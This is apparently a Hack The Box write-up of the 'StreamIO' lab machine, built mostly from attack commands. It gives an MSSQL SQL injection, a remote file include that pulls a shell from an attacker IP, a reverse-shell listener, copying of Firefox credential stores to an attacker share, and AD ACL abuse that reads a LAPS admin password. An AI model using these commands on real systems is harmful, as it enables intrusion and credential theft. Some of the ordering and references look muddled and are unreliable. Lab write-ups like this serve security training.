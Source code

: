 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used:**  
  - SQL Injection (stacked queries) on `/search.php` 🐍  
  - Remote File Include via `debug` parameter for RCE 📝  
  - MSSQL xp_dirtree for Net‑NTLMv2 capture (dead end) 🔒  
  - PHP credential harvesting (db_user / db_admin) 🗄️  
  - Hash‑cracking (MD5) with RockYou 🔑  
  - WebShell → Reverse shell with `nc64.exe` 🖥️  
  - Local enumeration → Firefox profile dump & Firepwd 🔍  
  - BloodHound + ADACL abuse → LAPS retrieval 🔐  
- **Open Ports (relevant):**  
  - [HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP) 80/tcp  
  - [HTTPS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview) 443/tcp  
  - SMB 445/tcp  
  - WinRM 5985/tcp  

---

## TLDR 🚀
1. **SQLi** on `watch.streamio.htb/search.php` finds injection via stacked queries.  
2. **RFI** on `streamio.htb/admin/?debug=` includes remote PHP, yielding a reverse shell as **yoshihide**.  
3. **Dump** main DB tables → **MD5** hashes → crack for **yoshihide**, **nikk37**, etc.  
4. **Login** to `streamio.htb/login.php` with cracked creds → **nikk37** shell via Evil‑WinRM.  
5. **Extract** Firefox `logins.json` + `key4.db` → Firepwd → **JDgodd** Slack creds.  
6. **BloodHound** (as JDgodd) → abuse Core Staff ACL → read **LAPS** from DC → Administrator shell.  

---

## Tools 🛠️
- **nmap** – port & service enumeration  
- **wfuzz**, **feroxbuster** – vhost & directory discovery  
- **Burp Suite** – manual SQLi & RFI testing  
- **sqlmap** – confirm SQLi injection point  
- **curl** – test HTTP methods & include payloads  
- **nc64.exe** – Windows reverse shell payload  
- **Responder** – Net‑NTLMv2 capture (enumeration step)  
- **hashcat** – MD5 hash cracking (`-m 0`)  
- **evil-winrm** – remote PowerShell shell  
- **sqlcmd** – on‑box MSSQL querying  
- **PowerView.ps1** – AD ACL & group manipulation  
- **firepwd.py** – Firefox password decryption  
- **bloodhound-python** + BloodHound GUI – AD enumeration and ACL discovery  

---

## Commands to Solve Box 📝

```bash
# 1. Confirm SQLi on search.php
curl -k -d "q=test' WAITFOR DELAY '0:0:5'--" https://watch.streamio.htb/search.php

# 2. RFI to include remote PHP (master.php)
curl -k -X POST "http://streamio.htb/admin/?debug=master.php" \
     -d "include=http://10.10.14.6/shell.php"

# 3. Reverse shell listener
nc -lvnp 443

# 4. Crack main DB hashes
hashcat -m 0 user-passwords rockyou.txt --user

# 5. Evil‑WinRM as nikk37
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'

# 6. Exfil Firefox creds
# On host: smbserver.py share . -user oxdf -pass oxdf -smb2support
# On box:
net use \\10.10.14.6\share /u:oxdf oxdf
copy %APPDATA%\mozilla\Firefox\Profiles\*.default-release\{key4.db,logins.json} \\10.10.14.6\share\

# 7. Decrypt with Firepwd
firepwd.py key4.db logins.json

# 8. BloodHound collect as JDgodd
bloodhound-python -c All -u JDgodd -p 'password@12' -d streamio.htb -ns 10.10.11.158 --zip

# 9. Abuse Core Staff ACL & read LAPS
# On box via Evil-WinRM (JDgodd):
Import-Module .\PowerView.ps1
$pass=ConvertTo-SecureString 'password@12' -AsPlainText -Force
$cred=New-Object PSCredential 'streamio.htb\JDgodd',$pass
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "streamio\JDgodd"
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred

# 10. Administrator shell via LAPS
evil-winrm -i 10.10.11.158 -u Administrator -p '-Z4I/T1W0%+4nF'
```

---

## Actions Learned 💡
- Craft **stacked‑query** SQL injection in MSSQL 🐍  
- Achieve **RCE** via PHP file‑include debugging endpoint 🚨  
- Use **sqlcmd** on Windows to query internal DBs 🗄️  
- Extract & **crack** MD5 hashes en masse with hashcat 🔑  
- Dump **Firefox** saved credentials (key4.db + logins.json) → Firepwd 🔐  
- Leverage **BloodHound** & **PowerView** to abuse AD ACLs 🧩  
- Read **LAPS** password from computer object for SYSTEM 🤖  

---

## References 📚
- Stack‑based SQLi in MSSQL:  
  – https://portswigger.net/web-security/sql-injection/mysql/stacked-queries  
- PHP RFI via `php://filter`:  
  – https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion  
- Firepwd (Firefox decrypt):  
  – https://github.com/AndreMiras/pyfirepwd  
- PowerView & AD ACL abuse:  
  – https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon  
- LAPS enumeration & crackmapexec:  
  – https://github.com/byt3bl33d3r/CrackMapExec/wiki/LAPS-module  